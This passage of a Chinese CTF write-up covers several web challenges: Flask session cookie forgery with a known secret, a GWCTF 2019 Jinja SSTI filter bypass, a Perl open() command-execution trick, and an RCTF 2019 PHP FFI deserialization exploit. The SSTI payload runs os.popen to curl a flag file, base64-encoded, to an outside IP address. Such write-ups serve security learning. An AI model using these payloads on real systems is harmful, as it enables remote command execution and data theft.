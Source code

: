 (lzctf原题哈哈哈哈

```
eXuJzykDsiHS2PZlDHYn3ASpyXxWazYiTZqEwqbP
python3 flask_session_cookie_manager3.py encode -s "eXuJzykDsiHS2PZlDHYn3ASpyXxWazYiTZqEwqbP" -t "{'balance': 1338, 'purchases': []}"
```

## 0x06 [GWCTF 2019]你的名字

报

可以复写绕过的题目不多了。。

```
{% iconfigf ''.__claconfigss__.__mconfigro__[2].__subclaconfigsses__()[59].__init__.func_glconfigobals.lineconfigcache.oconfigs.popconfigen('curl http://8.142.93.103/ -d ` cat /flag_1s_Hera|base64`;') %}1{% endiconfigf %}
```

## 0x07 [CSAWQual 2016]i_got_id

perl 被喷得好惨呀 呜呜

参考连接: https://tsublogs.wordpress.com/2016/09/18/606/

![image-20220101233621565](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220101233621565.png)

其实这个题目还是有点东西。首先需要猜测一波语句，然后还要会perl

https://blog.csdn.net/shangguanzhe/article/details/40432679

可以知道这个符号`<>`会对`ARGV`产生反应，获取运行的参数。并且会对参数进行`open`操作，后面的故事就不用多说了，就是open命令执行了。

## 0x08 [RCTF 2019]Nextphp

这道题目我看到`FFI`大概猜了一波是它，但是还是不敢确定。之前每次用ffi绕过都是payload直接一把嗦，今天发现了`preload.php`才知道FFI还要配合preload.php才能成功的运行。

那我们先看看preload.php的作用https://wiki.php.net/rfc/preload

查了一下，发现文档中说了这么一句![image-20220101235133651](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220101235133651.png)

他的意思是FFI只能在文件中运行，其他文件都不行，所以我们用它来调用不就可以了吗？。

```php
<?php
final class A implements Serializable {
    protected $data = [
        'ret' => null,
        'func' => 'FFI::cdef',
        'arg' => "int php_exec(int type, char *cmd);"
    ];

    public function serialize (): string {
        return serialize($this->data);
    }

    public function unserialize($payload) {
        $this->data = unserialize($payload);
        $this->run();
    }

    public function __construct () {
    }
}

$a = new A;
```